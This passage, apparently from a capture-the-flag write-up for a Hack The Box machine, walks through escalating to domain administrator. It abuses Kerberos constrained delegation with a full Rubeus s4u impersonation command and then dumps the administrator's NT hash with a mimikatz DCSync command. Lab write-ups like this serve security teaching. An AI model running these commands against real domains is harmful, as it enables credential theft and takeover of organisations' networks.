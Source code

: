 Since we are going to interact with kerberos we need to synchronize our clock with the domain controller, to do so we go to internet time and set the IP of our target as the server and synchronize our clocks.

![](/assets/images/intelligence/internettime.png)

To avoid having any issue with name we add dc.intelligence.htb and intelligence.htb to our hosts file, on Windows it is located on C:\windows\system32\drivers\etc\hosts Now we will use Rubeus to exploit the configuration, using serve for yourself we will ask for a TGS to access to www service on dc.intelligence.htb, add as alternate service ldap, and pass the ticket to our current shell, to do so we run, `Rubeus.exe s4u /user:svc_int$ /rc4:d64b83fe606e6d3005e20ce0ee932fe2 /impersonateuser:administrator /domain:intelligence.htb /dc:10.10.10.248 /msdsspn:www/dc.intelligence.htb /altservice:ldap /ptt`, after runnning all that we will get the message "Ticket successfully imported!", now that we have a ticket that allows us to interact with LDAP as administrator we can perform a DCSync, we can use mimikatz for that: `mimikatz.exe "lsadump::dcsync /dc:dc.intelligence.htb /domain:intelligence.htb /user:administrator" "exit"`, after running that we get the NT hash of administrator user.

![](/assets/images/intelligence/mimikatz.png)
